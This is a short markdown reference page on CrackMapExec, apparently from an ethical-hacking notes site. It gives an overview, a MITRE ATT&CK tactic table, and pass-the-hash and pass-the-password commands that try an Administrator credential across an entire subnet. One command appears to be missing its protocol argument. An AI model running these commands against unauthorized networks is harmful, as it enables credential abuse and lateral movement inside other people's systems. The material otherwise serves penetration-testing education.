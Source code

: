 ```yaml
---
title: CrackMapExec
categories: [Ethical Hacking Tools, Frameworks and Suites]
tags: [crackmapexec, ldap, winrm, smb, ssh, mssql, pth]
comments: true
---
```


## Overview

CrackMapExec (CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land", abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions. [^1]

Kali Linux comes with CME pre-installed. [^2]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) | V5.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) <br> [Privilege Escalation](https://attack.mitre.org/tactics/TA0004/) <br> [Discovery](https://attack.mitre.org/tactics/TA0007/) <br> [Collection](https://attack.mitre.org/tactics/TA0009/) <br> [Command and Control](https://attack.mitre.org/tactics/TA0011/) <br> [Exfiltration](https://attack.mitre.org/tactics/TA0010/) <br> [Execution](https://attack.mitre.org/tactics/TA0002/) <br> [Persistence](https://attack.mitre.org/tactics/TA0003/) <br> [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) <br> [Lateral Movement](https://attack.mitre.org/tactics/TA0008/) |

## CrackMapExec Modules

### Lateral Movement

#### Pass The Hash/Password

After obtaining credential hashes, both the full hash or just the nt hash (second half) can be used to move laterally using Pass the Hash techniques. The following checks will attempt authentication to the entire /24 subnet though a single target may also be used.

```bash
# Pass the Hash
cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'

# Pass the Password
cme 192.168.1.0/24 -u Administrator -d Domain -p Password
```

## Sources

[^1]: [CrackMapExec Wiki](https://wiki.porchetta.industries/)
[^2]: [Kali Linux - CrackMapExec](https://www.kali.org/tools/crackmapexec/)
